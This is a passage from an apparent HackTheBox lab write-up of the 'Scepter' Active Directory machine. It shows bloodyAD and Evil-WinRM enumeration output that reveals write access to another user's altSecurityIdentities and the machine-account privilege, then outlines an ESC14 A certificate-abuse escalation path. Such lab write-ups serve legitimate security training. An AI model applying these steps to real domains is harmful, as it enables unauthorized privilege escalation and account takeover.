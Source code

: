
`h.brown` has write access to `p.adams`'s `altSecurityIdentities` attribute.

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# KRB5CCNAME=h.brown.ccache bloodyAD -d scepter.htb --dc-ip 10.10.11.65 -k get writable --detail

distinguishedName: CN=p.adams,OU=Helpdesk Enrollment Certificate,DC=scepter,DC=htb
altSecurityIdentities: WRITE

```

Also `h.brown` user has `SeMachineAccountPrivilege` , so `h.brown` can add machine account into AD environment. 

```bash
*Evil-WinRM* PS C:\Users\h.brown\appdata> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\h.brown\appdata> 
```
### Chaining the Attack Path

I'm already aware of  [bloodhound analysis](#helpdesk-enrollment-certificate-ou) `domain computers` has enrollment rights on `HeldeskEnrollmentCertificate` template . `h.brown` has privilege to add domain computers into AD environment and has write rights `altSecurityIdentities` on `p.adams` .

The attack path explained [ESC14 A](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc14-a-write-access-on-altsecurityidentities)

![](/assets/images/HTB-Scepter/Pasted_image_20250718164302.png)
